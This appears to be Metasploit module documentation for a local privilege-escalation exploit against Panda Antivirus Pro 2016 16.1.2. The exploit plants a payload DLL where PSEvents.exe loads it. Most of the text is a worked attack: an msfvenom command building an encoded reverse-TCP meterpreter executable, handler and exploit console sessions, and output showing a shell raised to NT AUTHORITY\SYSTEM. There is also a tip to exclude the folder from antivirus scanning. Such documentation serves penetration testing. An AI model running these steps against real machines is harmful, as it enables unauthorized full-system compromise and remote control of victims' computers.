 ## Vulnerable Application

  Panda Antivirus Pro 2016 16.1.2 is available from [filehippo](http://filehippo.com/download_panda_antivirus_pro_2017/download/b436969174c5ca07a27a0aedf6456c89/) or from an unofficial [git](https://github.com/h00die/MSF-Testing-Scripts/blob/master/Panda_AV_Pro2016_16.1.2.exe).

  The AV must be running for PSEvents.exe to run and the module to get called, which can take up to an hour.  I put in an exclusion for the AV for the folder to ensure it didn't catch meterpreter in action.

  The downloads folder can take a few minutes to appear after install, you may want to wait an hour or so, but it will eventually appear.

## Verification Steps

  Example steps in this format:

  1. Install the application
  2. Wait for `C:\\ProgramData\\Panda Security\\Panda Devices Agent\\Downloads` folder to appear
  3. Start msfconsole
  4. Get a shell
  5. Do: `use exploit/windows/local/panda_psevents`
  6. Do: `set session #`
  7. Do: `exploit`
  8. Go do something else while you wait
  9. Enjoy being system with your shell

## Options

  **DLL**

  Which DLL to name our payload.  The original vulnerability writeup utilized bcryptPrimitives.dll, however I found which dll to be VERY picky.  CRYPTBASE.dll seemed to work the best and is the default.
  
  **ListenerTimeout**
  
  How long to wait for a shell.  PSEvents.exe runs every hour or so, so the default is 3610 (10sec to account for code execution or other things)

## Scenarios

### Windows 8.1 x86 with Panda Antirivus Pro 2016 16.1.2

  Step 1, get a local shell.  I used msfvenom to drop an exe for easy user level meterpreter.
  
    msfvenom -a x86 --platform windows -p windows/meterpreter_reverse_tcp -f exe -o meterpreter.exe -e x86/shikata_ga_nai -i 1 LHOST=192.168.2.117 LPORT=4449
    
    msf exploit(handler) > set payload windows/meterpreter_reverse_tcp 
    payload => windows/meterpreter_reverse_tcp
    msf exploit(handler) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(handler) > set lport 4449
    lport => 4449
    msf exploit(handler) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4449 
    [*] Starting the payload handler...
    [*] Meterpreter session 1 opened (192.168.2.117:4449 -> 192.168.2.91:63617) at 2016-09-25 20:32:15 -0400
    
    meterpreter > getuid
    Server username: IE11Win8_1\IEUser
    meterpreter > background
    [*] Backgrounding session 1...

  Step 2, drop our panda exploit

    use exploit/windows/local/panda_psevents
    msf exploit(panda_psevents) > set session 1
    session => 1
    msf exploit(panda_psevents) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(panda_psevents) > set exitfunc seh
    exitfunc => seh
    msf exploit(panda_psevents) > set DLL CRYPTBASE.dll
    DLL => CRYPTBASE.dll
    msf exploit(panda_psevents) > show options
    
    Module options (exploit/windows/local/panda_psevents):
    
       Name             Current Setting  Required  Description
       ----             ---------------  --------  -----------
       DLL              CRYPTBASE.dll    yes       dll to create (Accepted: WINHTTP.dll, VERSION.dll, bcryptPrimitives.dll, CRYPTBASE.dll, cryptnet.dll, WININET.dll)
       ListenerTimeout  3610             yes       Number of seconds to wait for the exploit
       SESSION          1                yes       The session to run this module on.
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  seh              yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.2.117    yes       The listen address
       LPORT     4450             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows x86
    
    
    
    msf exploit(panda_psevents) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4450 
    [*] Uploading the Payload DLL to the filesystem...
    [*] Starting the payload handler, waiting for PSEvents.exe to process folder (up to an hour)...
    [*] Start Time: 2016-09-27 18:10:21 -0400
    [*] Sending stage (957999 bytes) to 192.168.2.91
    [*] Meterpreter session 2 opened (192.168.2.117:4450 -> 192.168.2.91:50022) at 2016-09-27 18:46:15 -0400
    [+] Deleted C:\ProgramData\Panda Security\Panda Devices Agent\Downloads\1a2d7253f106c617b45f675e9be08171\CRYPTBASE.dll
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    meterpreter > sysinfo
    Computer        : IE11WIN8_1
    OS              : Windows 8.1 (Build 9600).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/win32
    meterpreter > background
